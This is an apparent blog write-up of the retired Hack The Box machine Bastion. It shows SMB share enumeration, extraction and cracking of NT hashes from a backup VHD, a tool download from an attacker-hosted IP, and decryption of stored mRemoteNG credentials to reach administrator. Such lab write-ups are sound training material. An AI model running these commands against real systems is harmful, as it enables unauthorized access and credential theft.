```yaml
---
layout: post
title:  "HTB - Bastion"
date:   2020-06-06 20:00 +0100
tags: writeups
initial: 2019-09-06
---
```

Writeup for the retired HTB machine Bastion  
Link: https://www.hackthebox.eu/home/machines/profile/186  
IP: 10.10.10.134

<!--more-->

## Recon

```
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## SMB
The host has anonymous SMB with disabled message signing, so let's have a look at that.  
Let's begin with some recon:  
`msf5 > use auxiliary/scanner/smb/pipe_auditor`  
This yields some interesting endpoints: 
```
[+] 10.10.10.134:445      - Pipes: \netlogon, \lsarpc, \samr, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \LSM_API_service, \ntsvcs, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc

```
`msf5 > use auxiliary/scanner/smb/smb_enumshares`
```
[-] 10.10.10.134:139      - Login Failed: Unable to Negotiate with remote host
[+] 10.10.10.134:445      - ADMIN$ - (DISK) Remote Admin
[+] 10.10.10.134:445      - Backups - (DISK) 
[+] 10.10.10.134:445      - C$ - (DISK) Default share
[+] 10.10.10.134:445      - IPC$ - (IPC) Remote IPC
```
So let's look into the shares.
First, let's mount the Backups share:  
`sudo mount -t cifs -o user=guest //10.10.10.134/Backups /mnt/`
There's a Backup of a full client machine at `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351`.  
Could be worth a shot for NTLM hashes :3


## The Backup
So copy that VHD (in case someone resets the box while you're snooping around) and mount it with  
`sudo guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/guest/`

Next up: dumping the NTHash for the user. That can be done by copying SAM and SYSTEM from `C:\Windows\system32\config\`  
and then calling pwdump on it:  
```
apalax@raudfjorden:~/writeups/HTB/Labs/Bastion$ pwdump SYSTEM SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```
The syntax for these hashes is `username:id:LM-Hash:NT-Hash`. Let's try them by throwing these into `hashes.txt` and feeding it to john:  
```
john --format=nt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-09-05 19:36) 2.222g/s 10439Kp/s 10439Kc/s 10444KC/s burg772v..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
So it seems we have a user login / password combination.  
If we connect via SSH, we're dropped into a CMD (?).  
`user.txt` can be found at the desktop and printed with `type user.txt`.


## Road to root
Basically, I'm following this article: https://www.fuzzysecurity.com/tutorials/16.html    
We're making use of Matt Graebers excellent tool, Powersploit. 

Get PowerSploit
`wget http://10.10.15.195:8000/PowerSploit-3.0.0.zip -OutFile ps.zip`
In more detail, PowerUp. So download the Privesc folder into the PS Module path, import the module and fire away!  
```
Import-Module Privesc
Get-Command -Module Privesc
    <available commands>
Invoke-AllChecks
    <stuff stuff>
    (...)

[*] Checking %PATH% for potentially hijackable .dll locations...                                           


HijackablePath : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\                                      
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll' -Command '...'    
```
Not working?

Poking around shows an SSH config file with this: 
```
Match Group administrators                                                                       
       AuthorizedKeysFile __PROGRAMDATA__/ssh/administrators_authorized_keys 
```
unfortunately, we don't have write access to that folder as user, so keep looking!

### Ze RemoteNG?!
Poking around more reveals mRemoteNG, which seems off. Googling around reveals that it suffers from insecure password storage.  
So let's grab the connection.xml:
```
PS C:\Users\L4mpje\AppData\Roaming\mRemoteNG> type .\confCons.xml
```
We try to decrypt it with [mremoteng-decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).  
This is done by providing the decrypter the administrator password hash:  
```
python mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
Password: thXLHM96BeKL0ER2
```

So this is root! Connect, `cd` to Desktop and `type root.txt`. Fun box, but root and Windows enum took me a while.
